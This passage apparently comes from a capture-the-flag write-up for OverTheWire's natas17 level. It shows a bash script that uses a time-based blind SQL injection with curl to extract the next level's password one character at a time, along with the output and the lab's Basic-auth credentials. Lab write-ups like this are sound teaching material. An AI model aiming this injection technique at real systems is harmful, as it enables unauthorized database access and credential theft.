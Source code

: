 ```bash
        fi
    done
done
```

works, but case insensative.

```text
[+] Password: x
[+] Password: xv
[+] Password: xvk
[+] Password: xvki
[+] Password: xvkiq
[+] Password: xvkiqd
[+] Password: xvkiqdj
[+] Password: xvkiqdjy
```

```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF(password LIKE BINARY \"$password$letter%\", SLEEP($sleeptime), 0) #"
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
+] Password: x
[+] Password: xv
[+] Password: xvK
[+] Password: xvKI
[+] Password: xvKIq
[+] Password: xvKIqD
[+] Password: xvKIqDj
[+] Password: xvKIqDjy
[+] Password: xvKIqDjy4
[+] Password: xvKIqDjy4O
[+] Password: xvKIqDjy4OP
[+] Password: xvKIqDjy4OPv
[+] Password: xvKIqDjy4OPv7
[+] Password: xvKIqDjy4OPv7w
[+] Password: xvKIqDjy4OPv7wC
[+] Password: xvKIqDjy4OPv7wCR
[+] Password: xvKIqDjy4OPv7wCRg
[+] Password: xvKIqDjy4OPv7wCRgD
[+] Password: xvKIqDjy4OPv7wCRgDl
[+] Password: xvKIqDjy4OPv7wCRgDlm
[+] Password: xvKIqDjy4OPv7wCRgDlmj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0
```